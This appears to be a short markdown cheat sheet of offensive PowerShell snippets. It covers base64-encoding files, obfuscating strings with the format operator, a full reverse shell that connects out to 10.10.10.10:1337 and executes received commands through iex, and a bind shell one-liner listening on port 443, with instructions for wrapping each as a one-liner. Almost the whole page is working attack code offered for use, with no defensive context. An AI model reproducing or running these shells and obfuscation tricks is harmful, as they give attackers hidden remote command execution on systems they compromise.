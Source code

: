 ## Encoding
```powershell
powershell -c [convert]::ToBase64String((cat $file -Encoding byte)) 
```

## Formatting
Powershell formating leads to obsucation with [-f Format operator](https://ss64.com/ps/syntax-f-operator.html)
```powershell
${string} = ("{9}{8}{7}{6}{5}{4}{3}{2}{1}{0}"-f'Power','shell',' Formatting',' is',' obfuscation',' through',' ordering',' of',' parametres and splitting','strings')
echo $string 
```

## Powershell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner

## Powershell Bind Shell
Remember to change local addresss accordingly, some localhosts won't be `0.0.0.0`
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
```
Enclose with:
```powershell
 powershell -c "<code>"
```
For the one liner.
